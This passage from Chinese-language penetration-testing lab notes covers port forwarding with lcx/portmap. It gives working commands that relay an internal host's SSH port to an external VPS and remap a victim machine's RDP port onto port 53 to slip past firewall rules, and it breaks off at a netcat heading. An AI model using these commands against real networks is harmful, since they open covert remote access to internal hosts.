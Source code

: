 1.内网端口转发

```
实验：
环境
内网某主机（vmware-kali）
外网vps：139.155.2.117
准备工具http://www.vuln.cn/wp-content/uploads/2016/06/lcx_vuln.cn_.zip
vps首先开启监听：
./portmap -m 2 -p1 6666 -h2 139.155.2.117 -p2 7777

内网主机转发22端口到vps的6666端口上
./portmap -m 3 -h1 127.0.0.1 -p1 22 -h2 139.155.2.117 -p2 6666

然后在vps上连接ssh 127.0.0.1 -p 7777 或者ssh vps -p 7777

```

查看流量包，发现，看不出特征！有个gNb字段一直出现，但应该不是。。。

2.本地端口映射：将3389等转到53等可向外访问的端口上。

lcx.exe -tran 53 192.168.137.158 3389，将该主机的3389 映射到53端口上。

假设我的受害主机win10的3389不能被外访问，即不允许从外部来访问3389端口，但是53，或者其他常见的与公网交互的或者没有在防火墙黑名单中的，都可以尝试做端口映射，注意此处不允许复用端口。

![image-20210208212501355](../image/image-20210208212501355.png)

### 3.3.2 netcat
